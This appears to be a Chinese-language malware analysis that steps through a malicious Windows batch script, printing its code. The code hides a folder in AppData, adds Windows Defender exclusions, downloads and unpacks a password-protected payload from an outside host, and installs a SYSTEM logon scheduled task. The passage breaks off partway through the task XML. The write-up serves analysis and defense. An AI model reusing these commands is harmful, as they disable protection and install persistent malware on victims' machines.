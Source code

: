 脚本首先检测了一下环境，判断是否显示属性为系统&隐藏(Hidden + System)的文件，如果显示，就直接清除垃圾退出脚本。此外检测了系统位数

```bash
REG QUERY "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v "ShowSuperHidden" | FIND /I "1" > NUL && GOTO EndScript
REG QUERY "HKLM\Hardware\Description\System\CentralProcessor\0" | FIND /I "x86" > NUL && SET "OS_Bit=32Bit" || SET "OS_Bit=64Bit"
```

随后是系统位数的判断，只有64位系统才能执行下面的恶意代码

```bash
IF /I "!OS_Bit!" EQU "64Bit" (

	MD "!ppD!\DLL"
	ATTRIB +S +H "!ppD!\DLL"

	call :exportXML

	POWERSHELL -Command Add-MpPreference -ExclusionPath "!ppD!\DLL" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "dlIhost.exe" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "NSudo86x.exe" -Force %NUL%
	POWERSHELL -Command Add-MpPreference -ExclusionProcess "7za.exe" -Force %NUL%

	POWERSHELL -Command "Invoke-WebRequest 'https://www.!l2!.com/VScan/dlIhost.7z' -OutFile '!ppD!\DLL\dlIhost.7z'" %NUL%
	IF /I NOT "!errorlevel!" EQU "0" (
		DEL /F /Q /A "!ppD!\DLL\dlIhost.7z" %NUL%
		TIMEOUT /T 3 %NUL%
		POWERSHELL -Command "(New-Object System.Net.WebClient).DownloadFile('https://www.!l2!.com/VScan/dlIhost.7z', '!ppD!\DLL\dlIhost.7z')" %NUL%
	)

	7za e "!ppD!\DLL\dlIhost.7z" -o"!ppD!\DLL" -p!l3! -aoa %NUL%
	DEL /F /Q /A "!ppD!\DLL\dlIhost.7z" %NUL%

	schtasks /create /xml ".\UpdateTask.xml" /tn "UpdateTask" /f %NUL%
)
```
上面先创建了一个隐藏的文件夹，这个变量`ppD`在上面的配置文件中被设置成`%AppData%`，创建的文件夹就在`C:\Users\<用户名>\AppData\Roaming\Dll`，随后调用了`exportXML`同目录下生成一个xml文件，文件内容稍后下面贴出来，随后的四条命令调用了Powershell添加Windows Defender的排除项

![image-20240503234325335](image-20240503234325335.png)

然后又调用Powershell，进行下载文件，

![image-20240503234613920](image-20240503234613920.png)这里网址里包含了变量`l2`，同样在上面设置变量为`crackingcity`，所以这里从www[.]crackingcity[.]com/VScan/dlIhost.7z下载文件，下载到目录`C:\Users\<用户名>\AppData\Roaming\Dll\dlIhost.7z`

随后是调用7z解压刚下载的压缩包，密码在变量`l3`中，值为`un#912345678@rar`，删除下载的压缩包后添加计划任务，xml文件就是开头调用`exportXML`生成的，内容如下：

```xml
<?xml version="1.0" encoding="UTF-16"?> 
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"> 
  <Triggers> 
    <LogonTrigger> 
      <Enabled>true</Enabled> 
    </LogonTrigger> 
  </Triggers> 
  <Principals> 
    <Principal id="Author"> 
      <UserId>S-1-5-18</UserId> 
      <RunLevel>HighestAvailable</RunLevel> 
    </Principal> 
  </Principals> 
  <Settings> 
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy> 
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries> 
```
